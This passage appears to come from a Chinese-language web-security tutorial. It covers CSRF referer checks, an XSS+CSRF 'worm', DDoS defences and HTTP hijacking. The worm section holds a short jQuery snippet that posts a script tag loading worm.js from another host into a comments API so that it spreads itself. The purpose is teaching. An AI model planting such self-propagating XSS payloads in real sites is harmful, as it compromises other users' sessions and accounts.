 ```
        }
    } else {
        res.json({ code: 1, error: '用户没有登录' });
    }
    //} else {
    res.json({ code: 1, error: 'referer不正确' });
    //}
})

```

#### 2.2.4 xss+csrf(蠕虫)

不断传播的xss+csrf攻击 worm.js

```
const attack = '<script src="http://localhost:3001/worm.js"></script>';
$.post('/api/comments', { content: 'haha' + attack });

```

## 3\. DDOS攻击

分布式拒绝服务(Distribute Denial Of Service)

*   黑客控制大量的肉鸡向受害主机发送非正常请求，导致目标主机耗尽资源不能为合法用户提供服务
*   验证码是我们在互联网十分常见的技术之一。不得不说验证码是能够有效地防止多次重复请求的行为。
*   限制请求频率是我们最常见的针对 DDOS 攻击的防御措施。其原理为设置每个客户端的请求频率的限制
*   增加机器增加服务带宽。只要超过了攻击流量便可以避免服务瘫痪
*   设置自己的业务为分布式服务，防止单点失效
*   使用主流云系统和 CDN（云和 CDN 其自身有 DDOS 的防范作用）
*   优化资源使用提高 web server 的负载能力

## 4\. HTTP劫持

*   在用户的客户端与其要访问的服务器经过网络协议协调后，二者之间建立了一条专用的数据通道，用户端程序在系统中开放指定网络端口用于接收数据报文，服务器端将全部数据按指定网络协议规则进行分解打包，形成连续数据报文。
*   用户端接收到全部报文后，按照协议标准来解包组合获得完整的网络数据。其中传输过程中的每一个数据包都有特定的标签，表示其来源、携带的数据属性以及要到何处，所有的数据包经过网络路径中ISP的路由器传输接力后，最终到达目的地，也就是客户端。
*   HTTP劫持是在使用者与其目的网络服务所建立的专用数据通道中，监视特定数据信息，提示当满足设定的条件时，就会在正常的数据流中插入精心设计的网络数据报文，目的是让用户端程序解释“错误”的数据，并以弹出新窗口的形式在使用者界面展示宣传性广告或者直接显示某网站的内容。
